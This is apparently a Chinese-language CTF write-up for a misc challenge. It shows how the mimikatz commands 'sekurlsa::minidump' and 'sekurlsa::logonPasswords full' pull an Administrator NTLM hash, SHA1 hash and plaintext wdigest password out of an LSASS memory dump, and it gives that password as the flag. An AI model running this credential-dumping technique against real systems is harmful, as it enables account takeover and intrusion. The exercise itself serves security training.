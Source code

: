 # writeup
#### 3、LASS文件解密。
参考[：https://blog.csdn.net/yiyefangzhou24/article/details/11760277?_t_t_t=0.25886626888210196](https://blog.csdn.net/yiyefangzhou24/article/details/11760277?_t_t_t=0.25886626888210196)
##### 使用工具mimikatz
dump文件和mimikatz的版本对应关系，对应关系如图：
![image](https://github.com/jackey815/writeup/blob/master/misc3/对应表.PNG)

将文件拷入到xp x86机子，使用命令
```
mimikatz # sekurlsa::minidump lsass.dmp  
Switch to MINIDUMP  
mimikatz # sekurlsa::logonPasswords full  
```
得到结果：
```
mimikatz # sekurlsa::minidump LSASS.DUMP
Switch to MINIDUMP : 'LSASS.DUMP'

mimikatz # sekurlsa::logonPasswords full
Opening : 'LSASS.DUMP' file for minidump...

Authentication Id : 0 ; 984524 (00000000:000f05cc)
Session           : Interactive from 0
User Name         : Administrator
Domain            : EF3D-A3A4CBDD6
Logon Server      : EF3D-A3A4CBDD6
Logon Time        : 2018-6-15 1:06:50
SID               : S-1-5-21-796489640-1449036476-780432832-500
        msv :
         [00000002] Primary
         * Username : Administrator
         * Domain   : EF3D-A3A4CBDD6
         * NTLM     : 771aad64f9064f2e599db78ce83ee7ea
         * SHA1     : 7cff826bf8d6b80d1fbffb412fabe3d2cc851bd7
        wdigest :
         * Username : Administrator
         * Domain   : EF3D-A3A4CBDD6
         * Password : 60E90BDC0A723F11
```
```
KEY:60E90BDC0A723F11
```